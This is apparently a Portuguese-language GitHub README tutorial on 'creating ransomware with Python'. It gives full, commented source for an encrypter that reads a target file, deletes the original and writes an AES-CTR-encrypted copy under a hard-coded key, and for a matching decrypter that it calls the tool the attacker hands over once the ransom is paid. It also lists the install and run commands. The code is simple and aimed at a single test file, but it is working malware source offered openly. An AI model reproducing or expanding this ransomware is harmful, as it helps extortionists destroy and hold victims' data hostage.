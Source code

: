 # Criando-um-Ransomware-com-python

### Ferramentas necessárias para criação deste ransomware

- Kali Linux
- vim

### Configuração Ransomware

- No terminal do Kali Linux, crie um arquivo que servirá de exemplo para o ataque: vim dados_teste.txt 
Dentro do arquivo dados_teste.txt, adicione um dado como: "Dados importantes da minha empresa." 
Agora, crie um comando em Python para criptografar o arquivo dados_teste.txt: vim encrypter.py

## Alimente com esses dados:

## Fazer um arquivo em phyton para cryptografar o arquivo dados_teste.txt: vim encrypter.py

- import os         # Importa o módulo 'os' para interagir com o sistema operacional.
- import pyaes      # Importa a biblioteca 'pyaes' para operações de criptografia e descriptografia.

### Abrir o arquivo a ser criptografado
- file_name = 'dados_teste.txt'                # Define o nome do arquivo a ser criptografado.
- file = open(file_name, 'rb')                 # Abre o arquivo em modo de leitura binária.
- file_data = file.read()                      # Lê o conteúdo do arquivo e armazena em 'file_data'.
- file.close()                                 # Fecha o arquivo.

### Remover o arquivo original
- os.remove(file_name)                         # Remove o arquivo original do sistema.

### Chave de criptografia
- key = b'testeransomwares'                     # Define a chave de criptografia.
- aes = pyaes.AESModeOfOperationCTR(key)        # Cria um objeto AES para criptografia no modo CTR.

### Criptografar o arquivo
- crypto_data = aes.encrypt(file_data)          # Criptografa os dados do arquivo.

### Salvar o arquivo criptografado
- new_file = file_name + '.ransomwarattack'     # Define o nome do novo arquivo criptografado.
- new_file = open(f'{new_file}', 'wb')          # Abre o novo arquivo em modo de escrita binária.
- new_file.write(crypto_data)                   # Escreve os dados criptografados no novo arquivo.
- new_file.close()                              # Fecha o novo arquivo.

## Agora, crie um arquivo para descriptografar, que o atacante forneceria para quem sofreu o ataque mediante o pagamento do resgate: vim decrypter.py

- import os        # Importa o módulo 'os' para interagir com o sistema operacional.
- import pyaes     # Importa a biblioteca 'pyaes' para operações de criptografia e descriptografia.

### Abrir o arquivo criptografado
- file_name = 'dados_teste.txt.ransomwarattack'        # Define o nome do arquivo criptografado.
- file = open(file_name, 'rb')                   # Abre o arquivo em modo de leitura binária.
- file_data = file.read()                        # Lê o conteúdo do arquivo e armazena em 'file_data'.
- file.close()                                   # Fecha o arquivo.

### Chave para descriptografia
- key = b'testeransomwares'                      # Define a chave de descriptografia.
- aes = pyaes.AESModeOfOperationCTR(key)         # Cria um objeto AES para descriptografia no modo CTR.
- decrypt_data = aes.decrypt(file_data)          # Descriptografa os dados do arquivo.

### Remover o arquivo criptografado
- os.remove(file_name)                           # Remove o arquivo criptografado do sistema.

### Criar o arquivo descriptografado
- new_file = 'dados_teste.txt'                   # Define o nome do novo arquivo descriptografado.
- new_file = open(f'{new_file}', 'wb')           # Abre o novo arquivo em modo de escrita binária.
- new_file.write(decrypt_data)                   # Escreve os dados descriptografados no novo arquivo.
- new_file.close()                               # Fecha o novo arquivo.

## Comandos para fazer a cryptografia e a descryptografia no terminal kali:

- Instalado no módulo pyaes no seu ambiente Python: pip install pyaes
- Para criptografar o arquivo dados_teste.txt: python encrypter.py
- Para descryptografar o arquivo dados_teste.txt: python decrypter.py
 

![Dados_criptografado](https://github.com/user-attachments/assets/e6da0098-7422-4eb3-afc9-8f6a2c80c331)
![Dados_descriptografado](https://github.com/user-attachments/assets/8d874905-c80a-4870-9f73-31a55af87ec4)

